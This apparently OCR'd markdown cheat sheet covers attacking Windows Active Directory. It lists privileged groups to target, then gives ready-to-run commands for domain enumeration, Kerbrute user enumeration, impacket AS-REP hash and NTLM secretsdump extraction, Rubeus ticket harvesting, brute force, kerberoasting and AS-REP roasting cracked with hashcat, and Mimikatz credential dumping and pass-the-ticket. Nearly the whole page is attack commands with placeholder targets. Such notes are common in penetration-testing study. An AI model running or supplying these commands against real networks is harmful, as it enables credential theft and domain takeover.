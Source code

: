 - Target Groups
    - Remote Desktop Users
        - Can RDP all machines
    - Group Policy Creator Owners
        - Can create GPO rule
    - Server Operators
        - Can backup DC
    - DNSAdmins
        - Can run DLL on DC
    - Backup Operators
        - Can backup DC
    - Print Operators
        - Can reboot any machines
- Find DC
    - `echo %logonserver%`
    - `nltest /dclist:{domain}`
- Find Password Policy
    - `Get-ADDefaultDomainPasswordPolicy`
- AD Information
    - `Get-ADForest`
- AD Trust
    - `nltest /domain_trusts`
- List User
    - `net user` Machine
    - `net user /domain` AD
    - `net user {username} /domain` list user detail
- List Group
    - `net group`
    - `net group /domain`
- Enumerate User
    - Kerbrute
        - `kerbrute userenum --dc {IP} -d {domain} {user_wordlist} -t 100 -o kerbrute.sc`
- impacket
    - impacket-GetNPUsers
        - Get Kerberos 5 Hash
        - `impacket-GetNPUsers -no-pass -userfile {user_list} -dc-ip {ip} {domain}/`
    - impacket-secretsdump
        - Get NTLM Hash
        - `impacket-secretsdump {domain}/{user}:{password}@{IP}`
- Rubeus.exe
    - Get TGT
        - Get TGT in 30 sec loop
        - `Rubeus.exe harvest /interval:30`
    - Find The User Has Know Password
        - `Rubeus.exe brute /password:{password} /noticket`
    - Get Kerberos Hash
        - Kerberosting
            - `Rubeus.exe kerberoast`
            - `hashcat -m 13100 -a 0 {hash} {wordlist}`
        - AS-REP Roasting
            - `Rubeus.exe asreproast`
            - `hashcat -m 18200 {hash} {wordlist}`
- Mimikatz
    - Get Privilege
        - `privilege::debug`
    - Dump User hashs
        - `lsadump::lsa /patch`
    - Dump All Informations
        - Need Local Administrators
        - `sekurlsa::logonpasswords /all`
    - Pass the Ticket
        - `sekurlsa::tickets /export` Export all .kirbi ticket into shell location
        - `kerberos::ptt {ticket}`
        - `misc::cmd`